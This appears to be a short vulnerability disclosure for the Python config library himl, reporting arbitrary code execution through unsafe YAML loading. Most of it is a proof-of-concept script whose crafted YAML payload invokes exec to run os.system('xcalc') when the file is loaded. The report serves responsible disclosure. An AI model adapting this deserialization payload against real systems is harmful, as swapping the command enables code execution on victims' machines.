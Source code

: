 # Description

`himl` is a hierarchical config using yaml in Python, which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip install himl
```

### Run exploit.py
```
import os
#os.system('pip install himl')
from himl import config_generator
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('pwn.yml','w+').write(exploit)
config_generator.ConfigGenerator.yaml_get_content('pwn.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
